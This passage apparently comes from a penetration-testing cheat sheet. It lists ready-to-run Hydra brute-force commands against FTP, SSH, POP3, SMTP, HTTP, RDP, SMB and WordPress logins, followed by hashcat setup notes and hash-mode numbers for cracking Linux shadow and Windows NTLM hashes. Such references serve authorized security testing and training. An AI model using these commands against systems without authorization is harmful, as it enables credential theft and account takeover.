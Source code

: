         -   Hydra FTP known user and rockyou password list

            `hydra -t 1 -l admin -P /usr/share/wordlists/rockyou.txt -vV $ip ftp`

        -   Hydra SSH using list of users and passwords

            `hydra -v -V -u -L users.txt -P passwords.txt -t 1 -u $ip ssh`

        -   Hydra SSH using a known password and a username list

            `hydra -v -V -u -L users.txt -p "<known password>" -t 1 -u $ip ssh`

        -   Hydra SSH Against Known username on port 22

            `hydra $ip -s 22 ssh -l <user> -P big_wordlist.txt`

        -   Hydra POP3 Brute Force

            `hydra -l USERNAME -P /usr/share/wordlistsnmap.lst -f $ip pop3 -V`

        -   Hydra SMTP Brute Force

            `hydra -P /usr/share/wordlistsnmap.lst $ip smtp -V`

        -   Hydra attack http get 401 login with a dictionary

            `hydra -L ./webapp.txt -P ./webapp.txt $ip http-get /admin`

        -   Hydra attack Windows Remote Desktop with rockyou

            `hydra -t 1 -V -f -l administrator -P /usr/share/wordlists/rockyou.txt rdp://$ip`

        -   Hydra brute force SMB user with rockyou:

            `hydra -t 1 -V -f -l administrator -P /usr/share/wordlists/rockyou.txt $ip smb`

        -   Hydra brute force a Wordpress admin login

            `hydra -l admin -P ./passwordlist.txt $ip -V http-form-post '/wp-login.php:log=^USER^&pwd=^PASS^&wp-submit=Log In&testcookie=1:S=Location'`



-   <span id="_bnmnt83v58wk" class="anchor"><span id="_Toc480741822" class="anchor"></span></span>Password Hash Attacks
    -------------------------------------------------------------------------------------------------------------------

    -   Online Password Cracking
        [*https://crackstation.net/*](https://crackstation.net/)
        [*http://finder.insidepro.com/*](http://finder.insidepro.com/)

    -   Hashcat
    Needed to install new drivers to get my GPU Cracking to work on the Kali linux VM and I also had to use the --force parameter.

      `apt-get install libhwloc-dev ocl-icd-dev ocl-icd-opencl-dev`

      and

      `apt-get install pocl-opencl-icd`


    Cracking Linux Hashes - /etc/shadow file
    ```
     500 | md5crypt $1$, MD5(Unix)                          | Operating-Systems
    3200 | bcrypt $2*$, Blowfish(Unix)                      | Operating-Systems
    7400 | sha256crypt $5$, SHA256(Unix)                    | Operating-Systems
    1800 | sha512crypt $6$, SHA512(Unix)                    | Operating-Systems
    ```
    Cracking Windows Hashes
    ```
    3000 | LM                                               | Operating-Systems
    1000 | NTLM                                             | Operating-Systems
    ```
    Cracking Common Application Hashes
    ```
